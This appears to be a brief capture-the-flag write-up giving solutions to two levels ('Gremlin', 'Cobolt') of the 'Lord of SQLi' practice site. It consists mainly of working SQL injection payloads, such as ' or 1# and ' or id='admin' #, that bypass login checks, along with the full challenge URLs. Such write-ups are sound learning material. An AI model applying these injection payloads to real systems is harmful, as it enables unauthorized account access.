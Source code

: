 # Lord of SQLi



## Gremlin
![image](https://github.com/keerthiprabup/Webtasks/blob/main/Lordofsqli/images/Gremlinq.png)
Solution:

Using ?id=1&pw=1%27%20or%201%23 would result the query execute.



link: https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php?id=1&pw=1%27%20or%201%23

## Cobolt

![image](https://github.com/keerthiprabup/Webtasks/blob/main/Lordofsqli/images/Cobolt.png)

query : select id from prob_cobolt where id='' or id='admin' #' and pw=md5('')

link:https://los.rubiya.kr/chall/cobolt_b876ab5595253427d3bc34f1cd8f30db.php?id=%27%20or%20id=%27admin%27%20%23

## 
